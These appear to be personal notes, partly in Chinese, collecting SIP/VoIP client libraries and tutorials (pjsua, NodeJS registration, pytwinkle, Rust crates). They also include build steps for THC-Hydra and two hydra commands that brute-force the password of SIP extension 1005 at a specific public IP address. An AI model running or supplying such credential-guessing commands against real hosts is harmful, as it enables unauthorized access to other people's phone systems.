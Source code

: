
https://www.pjsip.org/python/pjsua.htm
https://trac.pjsip.org/repos/wiki/Python_SIP_Tutorial

听说 hydra也行，但试不了
https://github.com/vanhauser-thc/thc-hydra
git clone https://github.com/vanhauser-thc/thc-hydra.git
./configure
make
./hydra
hydra -l 1005 -P pwd.txt sip sip://121.40.154.105:5080
hydra -l 1005 -P pwd.txt sip sip://121.40.154.105:5060
121.40.154.105:5060

NodeJs 模仿SIP话机注册
https://www.jianshu.com/p/eb3d17361524
https://github.com/wendyjw/SIP-register-with-NodeJs

https://pypi.org/project/pytwinkle/
sudo apt-get install twinkle
sudo pip3 install pytwinkle

https://github.com/Televiska/rsip
https://github.com/DenisKolodin/sip-rs